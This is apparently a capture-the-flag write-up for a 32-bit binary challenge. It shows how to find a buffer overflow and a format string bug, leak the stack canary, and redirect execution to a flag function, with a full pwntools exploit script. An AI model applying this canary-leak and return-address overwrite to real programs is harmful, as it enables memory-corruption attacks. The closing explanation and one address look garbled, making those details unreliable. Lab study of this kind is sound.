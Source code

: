 # Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
32 bit binary with canary
Partial RELRO possible got.plt overwrite?
![](./1.png)
<br>
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.
![](./2.png)
<br>
Location of stack canary(ebp-0xc):
![](./3.png)
<br>
Using format string exploit which the canary value is shown on the 31th
![](./4.png)
<br>
Canary value:
![](./5.png)
<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html
![](./6.png)
<br>
Getting flag() address from ghidra(0x080491d2):
![](./7.png)
<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)
![](./8.png)
<br>
